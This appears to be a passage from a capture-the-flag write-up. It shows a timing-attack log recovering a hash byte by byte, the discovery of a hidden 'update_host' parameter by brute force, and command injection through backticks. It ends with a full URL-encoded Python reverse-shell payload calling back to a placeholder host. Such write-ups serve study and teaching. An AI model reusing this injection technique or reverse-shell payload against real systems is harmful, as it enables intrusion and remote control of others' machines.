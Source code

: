 ```
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa ( 0.9x - 1.2x)
f9aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa ( 1.4x - 1.7x)
f986aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa ( 2.0x - 2.3x)
f9865aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa ( 2.4x - 2.8x)
f9865a49aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa ( 2.9x - 3.1x)
f9865a4952aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa ( 3.4x - 3.6x)
f9865a4952a4aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa ( 3.7x - 4.1x)
f9865a4952a4f5aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa ( 4.2x - 4.5x)
f9865a4952a4f5d7aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa ( 4.7x - 4.9x)
f9865a4952a4f5d74baaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa ( 5.1x - 5.3x)
f9865a4952a4f5d74b43aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa ( 5.7x - 6.2x)
f9865a4952a4f5d74b43f3aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa ( 6.2x - 6.4x)
f9865a4952a4f5d74b43f355aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa ( 6.7x - 6.9x)
f9865a4952a4f5d74b43f3558faaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa ( 7.2x - 7.6x) [8f]
f9865a4952a4f5d74b43f3558fedaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa ( 7.7x - 8.1x) [ed]
f9865a4952a4f5d74b43f3558fed6aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa ( 8.2x - 8.4x) [6a][still not sure]
f9865a4952a4f5d74b43f3558fed6a02aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa ( 8.4x - 8.9x) [02]
f9865a4952a4f5d74b43f3558fed6a0225aaaaaaaaaaaaaaaaaaaaaaaaaaaaaa ( 9.4x - 9.5x) [25]
f9865a4952a4f5d74b43f3558fed6a0225c6aaaaaaaaaaaaaaaaaaaaaaaaaaaa ( 9.5x - 9.9x) [c6]
f9865a4952a4f5d74b43f3558fed6a0225c687aaaaaaaaaaaaaaaaaaaaaaaaaa ( 10.0 - 10.4) [87]
f9865a4952a4f5d74b43f3558fed6a0225c6877faaaaaaaaaaaaaaaaaaaaaaaa ( 10.9 - 11.1) [7f]
f9865a4952a4f5d74b43f3558fed6a0225c6877fbaaaaaaaaaaaaaaaaaaaaaaa ( 11.2 - 11.4) [ba]
f9865a4952a4f5d74b43f3558fed6a0225c6877fba60aaaaaaaaaaaaaaaaaaaa ( 11.8 - 11.9) [60]
f9865a4952a4f5d74b43f3558fed6a0225c6877fba60a2aaaaaaaaaaaaaaaaaa ( 12.1 - 12.3) [a2]
f9865a4952a4f5d74b43f3558fed6a0225c6877fba60a250aaaaaaaaaaaaaaaa ( 12.7 - 13.4) [50]
f9865a4952a4f5d74b43f3558fed6a0225c6877fba60a250bcaaaaaaaaaaaaaa ( 13.3 - 13.6) [bc]
f9865a4952a4f5d74b43f3558fed6a0225c6877fba60a250bcbdaaaaaaaaaaaa ( 13.8 - 14.0) [bd]
f9865a4952a4f5d74b43f3558fed6a0225c6877fba60a250bcbde7aaaaaaaaaa ( 14.0 - 14.4) [e7]
f9865a4952a4f5d74b43f3558fed6a0225c6877fba60a250bcbde753aaaaaaaa ( 14.7 - 14.9) [53]
f9865a4952a4f5d74b43f3558fed6a0225c6877fba60a250bcbde753f5aaaaaa ( 15.1 - 15.5) [f5]
f9865a4952a4f5d74b43f3558fed6a0225c6877fba60a250bcbde753f5dbaaaa ( 1 - 15.9) [db]
f9865a4952a4f5d74b43f3558fed6a0225c6877fba60a250bcbde753f5db13aa ( 16.4) [13]
f9865a4952a4f5d74b43f3558fed6a0225c6877fba60a250bcbde753f5db13d8 ( 16.9 ) [d8]
```

And got a `session` cookie when logged in using the correct hash, at the first time i thought that was an `JWT` but it was not, that was an Flask session token which structured as `[Payload].[Expiry].[Signature]` , tried an attack to find if the session generated using a weak key but it was not working.

After  strugling around i found that `http://104.196.12.98/update?port=80` have a hidden parameter `port` and i just think there must be another hidden parameter and i make a custom wordlist to bruteforce the parameter using burp intruder and found another `update_host` as a valid parameter reflecting to the output.

the `update_host` parameter is vulnerable to Remote Code Execution we can execute any arbitary code just by using a backtick.

[RCE1]

create a reverse shell using python 
```
 http://104.196.12.98/update?port=80&update_host=`python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22YOUR_IP%22,1212));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27`
```
